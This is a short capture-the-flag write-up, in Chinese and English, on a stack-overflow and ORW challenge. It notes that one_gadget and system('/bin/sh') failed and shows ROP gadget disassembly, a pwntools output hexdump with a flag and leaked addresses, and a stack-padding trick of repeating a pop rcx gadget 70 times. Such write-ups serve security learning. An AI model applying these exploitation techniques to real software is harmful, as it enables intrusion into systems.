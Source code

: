 
# 思路
栈溢出+orw，本题打one_gadget，和system("/bin/sh")都不通，不知道为什么？

# debug
```
   0x40117e <gadgets+8>:        pop    rcx
   0x40117f <gadgets+9>:        ret
   0x401180 <gadgets+10>:       nop
   0x401181 <gadgets+11>:       pop    rbp
   0x401182 <gadgets+12>:       ret

```

# getshell
```
[DEBUG] Received 0x64 bytes:
    00000000  2e 3b 2c 3b  2e 7b 61 61  61 61 61 61  61 5f 28 e2  │.;,;│.{aa│aaaa│a_(·│
    00000010  95 af c2 b0  e2 96 a1 c2  b0 29 e2 95  af ef b8 b5  │····│····│·)··│····│
    00000020  20 e2 94 bb  e2 94 81 e2  94 bb 5f 61  61 61 61 61  │ ···│····│··_a│aaaa│
    00000030  61 61 7d 0a  93 7f 00 00  50 40 40 00  00 00 00 00  │aa}·│····│P@@·│····│
    00000040  a1 38 5e d5  93 7f 00 00  64 00 00 00  00 00 00 00  │·8^·│····│d···│····│
    00000050  50 3a 65 d5  93 7f 00 00  7e 11 40 00  00 00 00 00  │P:e·│····│~·@·│····│
    00000060  58 40 40 00                                         │X@@·│
    00000064
.;,;.{aaaaaaa_(╯°□°)╯︵ ┻━┻_aaaaaaa}
\x93\x7f\x00\x00P@@\x00\x00\x00\x00\x00\xa18^Փ\x7f\x00\x00d\x00\x00\x00\x00\x00\x00\x00P:eՓ\x7f\x00\x00~\x11@\x00\x00\x00\x00\x00X@@\x00[*] Got EOF while reading in interactive
$

```
![](https://r2.20161023.xyz/pic/20250614183002451.png)


# why p64(pop_rcx)*70？
- to control the rsp,make it to big and big, to prevent program execution failure
- use gdb , find some `push` in the puts function
![](https://r2.20161023.xyz/pic/20250616134452737.png)
![](https://r2.20161023.xyz/pic/20250616134702353.png)
![](https://r2.20161023.xyz/pic/20250616134816208.png)

![](https://r2.20161023.xyz/pic/20250616173956872.png)